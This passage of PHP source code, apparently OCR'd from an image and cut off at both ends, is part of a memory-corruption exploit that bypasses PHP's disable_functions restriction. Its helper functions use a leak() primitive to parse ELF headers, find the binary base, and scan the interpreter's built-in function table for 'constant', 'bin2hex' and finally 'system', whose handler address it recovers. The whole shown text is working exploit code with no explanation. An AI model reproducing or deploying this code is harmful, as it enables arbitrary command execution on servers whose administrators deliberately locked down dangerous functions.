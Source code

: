 ```php
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { 

                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { 
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) {
                return leak($addr + 8);
            }
```